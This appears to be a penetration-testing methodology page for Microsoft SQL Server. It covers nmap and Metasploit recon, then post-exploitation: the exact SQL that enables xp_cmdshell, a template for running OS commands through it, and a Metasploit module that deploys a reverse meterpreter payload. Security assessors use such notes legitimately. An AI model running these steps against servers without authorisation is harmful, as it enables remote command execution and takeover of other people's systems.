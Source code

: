 # MSSQL - Methodology

### RECON

###### Basic recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.
```bash
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```     
The Metasploit mssql_ping module attempts to retrieve similar information:
```bash
msf > use auxiliary/scanner/mssql/mssql_ping
```

### EXPLOITATION


### POST EXPLOITATION

###### OS command execution
On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the account used has
sufficient privilege (sysadmin):
```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```
Operating system CMD commands can then be executed:
```SQL
EXEC xp_cmdshell '<CMD>'
go  
```
The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server:
```bash
msf > use exploit/windows/mssql/mssql_payload
```
